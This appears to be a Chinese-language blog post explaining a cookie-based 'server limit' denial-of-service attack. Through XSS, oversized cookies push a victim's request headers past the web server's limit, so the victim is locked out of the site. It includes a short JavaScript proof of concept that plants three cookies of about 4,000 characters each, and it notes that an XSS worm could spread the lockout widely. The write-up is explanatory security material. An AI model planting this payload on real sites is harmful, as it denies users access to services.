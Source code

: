 ```yaml
---
layout: post
category: ddos
tags: ddos javascript
title1: server limit dos
keywords: server limit dos
description: 在对http发起请求时，会把该域下的cookie当做header发送。由于header的长度是有限制的。当网站存在XSS时，被恶意写入大量的cookie，当cookie的长度大于了header的长度时将会发生server limit dos。
---
```


### server limit dos

这个问题实际上是由于 webserver 的 request field limit 造成的。当 http request header 过长时，webserver 会产生一个400 或者 4xx 错误

	Your browser sent a request that this server could not understand.
	Size of a request header field exceeds server limit.

**如果这些超长数据保存在cookie中，或者能够让用户每次访问的http 头都超长，就会导致用户一直都无法访问该域名，也就是dos了。**

每个 webserver 之间都有点差异， apache 可能是 8192 字节，具体可以参考这里：

[http://apache.active-venture.com/mod/core6.htm](http://apache.active-venture.com/mod/core6.htm)

测试了一下，发现在IE 8 中可以增加50个 cookie，由于每个cookie的限制是 4k （key, value 对），所以IE8 支持的cookie大小为 204k。 这也是IE 8新增的，以前没这么大。不过这些都远远超过了一般的webserver的默认 server limit 值

    apache 对 http request body 的limite 默认是 2G.

**值得注意的是，使用XSS，将可以写cookie，从而导致这种 server limit dos 攻击。**

### POC

	<script>
	var metastr = 'aaaaaaaaaa';
	var str = '';
	while(str.length <4000){
		str+=metastr;
	}
	document.cookie="val1="+str;
	document.cookie="val2="+str;
	document.cookie="val3="+str;
	</script>

运行这个脚本后，会在当前域下植入3个cookie，总长度超过8192字节， 之后再请求该域就会无法访问了。

因为是 stored cookie, 所以会导致该用户在清理cookie前一直都无法访问该网站。

**对于互联网网站来说，用户才是最重要和最宝贵的资源，哪怕用户的帐户被盗了，对于互联网公司的的损失可能都及不上用户无法访问网站造成的损失大。**

**而使用 XSS WORM 或者是 威力比较大的 XSS， 可以轻易的造成数千、数万的用户无法访问网站！**

[http://sirdarckcat.blogspot.com/2009/04/how-to-use-google-analytics-to-dos.html](http://sirdarckcat.blogspot.com/2009/04/how-to-use-google-analytics-to-dos.html)